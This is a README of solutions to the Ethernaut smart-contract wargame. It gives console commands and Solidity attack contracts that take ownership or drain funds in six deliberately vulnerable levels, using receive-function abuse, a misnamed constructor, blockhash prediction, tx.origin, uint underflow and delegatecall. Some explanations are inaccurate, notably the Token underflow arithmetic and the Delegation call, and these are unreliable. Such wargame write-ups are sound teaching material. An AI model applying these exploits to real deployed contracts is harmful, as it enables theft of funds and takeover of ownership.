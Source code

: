 # Ethernaut Solutions

Solution to the Ethernaut challenges!

## 00 - Hello Ethernaut

For Reference -> [Challenge](./questions/1.Hello_Ethernaut.sol) | [Solution](./answers/1.Hello_Ethernaut.js)

This one's a warm-up. All you have to do is call `info()`, if still confused then check the solution.

## 01 - Fallback

For Reference -> [Challenge](./questions/2.Fallback.sol) | [Solution](./answers/2.Fallback.js)

Here I used the browser's console to solve this challenge. We are going to take the advantage of `receive` function after which some ether could be sent to the contract and we will become the owner.

1. First, let's contribute a small amount less than 0.001 ether after converting ether to wei using `toWei` function within the console itself.

```javascript
    toWei(".0001") // 100000000000000

    await contract.contribute({value: 100000000000000})
```

2. Now, send some ether into the contract by taking advantage of the `receive` function.

```javascript
    await contract.sendTransaction({value: 1})
```

3. Finally, check for the owner whether it's you or not and upon confirmation withdraw the funds

```javascript
    await contract.owner()
    await contract.withdraw()
```

4. At last submit the instance

## 02 - Fallout

For Reference -> [Challenge](./questions/3.Fallout.sol) | [Solution](./answers/3.Fallout.js)

There's a blunder in the constructor name itself as it doesn't matches with the contract name.

Just call the `Fal1out` function and you will be the owner.

```javascript
    await contract.Fal1out()
```

## 03 - Coin Flip

For Reference -> [Challenge](./questions/4.Coin_Flip.sol) | [Solution](./answers/4.Coin_Flip.sol)

This challenge needs us to deploy a attack contract which will always win the coin flip. The contract is already provided in the [solution](./answers/4.Coin_Flip.sol) file. Although, it's well explained under the solution file itself but still let me walk you through the main `attack` function.

The reason why we are able to win the coin flip is because the `blockhash` function is used to calculate the `blockValue` and the `blockhash` function is only able to access the last 256 blocks. So, if we call the `attack` function multiple times in the same block, the `blockhash` function will return the same value and hence the `coinFlip` will be the same.

1. The `attack` function looks like this:

```solidity
    function attack() external {
        uint blockValue = uint(blockhash(block.number-1));
        uint coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        coinflip.flip(side);
    }
```

2. At first, we calculate the `blockValue` by using the `blockhash` function.

3. Then, we calculate the `coinFlip` by dividing the `blockValue` with the `FACTOR` which is 57896044618658097711785492504343953926634992332820282019728792003956564819968

4. Then we calculate the `side` by checking if the `coinFlip` is equal to 1 or not.

5. Finally, we call the `flip` function of the `coinflip` contract with the `side` as the argument.

6. Remember to call the `attack` function 10 times in order to win the challenge.

## 04 - Telephone

For Reference -> [Challenge](./questions/5.Telephone.sol) | [Solution](./answers/5.Telephone.sol)

All we need is to call the `attack` function within the [Solution](./answers/5.Telephone.sol) contract after deploying it.

```solidity
    function attack() public {
        telephone.changeOwner(address(this));
    }
```

The reason this works is because of the vulnerable condition - `(tx.origin != msg.sender)` in the `changeOwner` function of the `Telephone` contract. The `tx.origin` is the original sender of the transaction and `msg.sender` is the current sender of the transaction. So, when we call the `attack` function, the `msg.sender` is the address of the `Solution` contract and the `tx.origin` is the address of the EOA. Hence, the condition `(tx.origin != msg.sender)` is true and the `changeOwner` function is executed.

## 05 - Token

For Reference -> [Challenge](./questions/6.Token.sol) | [Solution](./answers/6.Token.js)

To crack this challenge, one need to have a knowledge of underflows and overflows...
Now, here we have 20 tokens and if we send someone 21 tokens which seems kind of impossible but wait, we are using `uint` here that means it can go negative and hence the balance will be 2^256 - 21 which is a huge number and hence the balance will be huge.

If we look at `transfer` function below:

```solidity
    function transfer(address _to, uint _value) public returns(bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
```

Here, if we call the `transfer` function with `_to` as someone's address and `_value` as 21, then `20 - 21 -> -1 <=> 2^256` and hence the balance will be huge.

1. Let's first check our current balance which gonna be 20 tokens

```javascript
    await contract.balanceOf(player)
```

2. Now transfer 21 tokens to someone's address

```javascript
    await contract.transfer("anyone-address", 21)
```

## 06 - Delegation

For Reference -> [Challenge](./questions/7.Delegation.sol) | [Solution](./answers/7.Delegation.js)

This is an interesting challenge and for this you need to have certain knowledge of how delegate calls works and can be manipulated in phase of vulnerability.
An interesting activity is provided in [Bonus](/Ethernaut/Bonus/DelegateCalls/) section which will help you understand a little concept about delegate calls. Research on your own basis will be helpful.

Now, let's come to the challenge:

1. First, we need to check which contract we are interacting with - `Delegate` or `Delegation`.

```shell
    contract.abi
```

2. Now we will make a variable that contains our call to `pwn` and then that call will send through an transaction to the `Delegation` contract. As `Delegation` contract contains a `fallback` function that usually take any transaction and then delegate it to the `Delegate` contract.

```javascript
    var pwned = web3.utils.keccak256("pwn()")
    await contract.sendTransaction(pwned)
```

3. At last, check the owner and submit!

```javascript
    await contract.owner()
```

## Contributing

Contributions to the Ethernaut_Practice project are welcome! If you have a solution to a challenge that is not yet included, or if you have suggestions for improvements, feel free to open a pull request.
